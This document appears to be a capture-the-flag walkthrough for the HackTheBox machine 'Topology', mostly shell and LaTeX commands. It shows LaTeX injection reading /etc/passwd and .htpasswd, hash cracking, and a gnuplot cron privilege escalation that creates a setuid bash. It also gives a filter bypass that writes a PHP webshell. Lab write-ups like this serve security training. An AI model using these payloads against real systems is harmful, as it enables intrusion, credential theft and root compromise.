 # 🛰️ HTB: Topology

## 🧭 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.217
nmap -p 22,80 -sCV 10.10.11.217
```

### Host Enumeration
```bash
# Add to /etc/hosts
echo "10.10.11.217 topology.htb latex.topology.htb dev.topology.htb stats.topology.htb" | sudo tee -a /etc/hosts
```

### Subdomain Bruteforce
```bash
ffuf -u http://10.10.11.217 -H "Host: FUZZ.topology.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -mc all -ac
```

### Directory Bruteforce
```bash
feroxbuster -u http://10.10.11.217 -x html
```

---

## 🐚 Shell as `vdaisley`

### LaTeX File Read
```latex
$\lstinputlisting{/etc/passwd}$
```

### Apache vhost + .htpasswd Enumeration
```latex
# View vhost config
$\lstinputlisting{/etc/apache2/sites-enabled/000-default.conf}$

# View .htaccess
$\lstinputlisting{/var/www/dev/.htaccess}$

# View .htpasswd
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

### Hash Cracking
```bash
# Save hash
echo 'vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0' > vdaisley.hash

# Crack with hashcat
hashcat -m 1600 -a 0 vdaisley.hash /opt/rockyou.txt
```

### SSH Access
```bash
sshpass -p 'calculus20' ssh vdaisley@topology.htb
```

---

## ⚙️ Shell as root (via gnuplot cron)

### Gnuplot Cron Observation (with pspy)
```bash
wget http://10.10.14.6/pspy64
chmod +x pspy64
./pspy64
```

### Proof of Concept Payload
```bash
cat > /opt/gnuplot/0xdf.plt << EOF
set print "/dev/shm/0xdf-output"
output = system("id")
print(output)
EOF
```

### Create SetUID Root Shell
```bash
cat > /opt/gnuplot/0xdf.plt << EOF
system("cp /bin/bash /tmp/0xdf")
system("chmod 6777 /tmp/0xdf")
EOF

# Wait a minute, then:
/tmp/0xdf -p
```

---

## 📖 Beyond Root – LaTeX Filter Bypass

### Filter Bypass With `^^`
```latex
# Bypassing filter with \write
$\newwrite\outfile\openout\outfile=cmd.php\^^77rite\outfile{%3C?php system($_GET['cmd']); ?%3E}\closeout\outfile
```

### Trigger Webshell
```bash
curl "http://latex.topology.htb/tempfiles/cmd.php?cmd=id"
```

---

## 🛠️ Fix Broken Stats (Bonus)

### Patch `getdata.sh`
```bash
chattr -i /opt/gnuplot/getdata.sh

# Change grep 'enp' to 'eth' inside getdata.sh
sed -i 's/enp/eth/' /opt/gnuplot/getdata.sh
```

### Fix `networkplot.plt` Source Paths
```bash
# Replace '/var/www/gnuplot' with '/opt/gnuplot' in plot lines
sed -i 's|/var/www/gnuplot|/opt/gnuplot|g' /opt/gnuplot/networkplot.plt
```